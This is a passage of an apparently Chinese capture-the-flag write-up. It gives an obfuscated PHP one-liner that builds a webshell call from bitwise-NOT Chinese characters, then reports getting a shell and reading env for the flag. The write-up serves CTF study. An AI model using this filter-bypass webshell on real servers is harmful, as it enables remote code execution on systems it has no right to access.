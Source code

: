 删除换行，得到：`<?=$_=[];$_=($_===$_);$___=~区[$_].~册[$_].~区[$_].~勿[$_].~皮[$_].~针[$_];$____=~研[$_].~寻[$_].~尽[$_].~欢[$_].~立[$_];$___($$____[_]);`

![upload successful](/images/pasted-506.png)
成功getshell，发现是个假flag，看wp发现在env里，执行env

![upload successful](/images/pasted-507.png)
得到flag
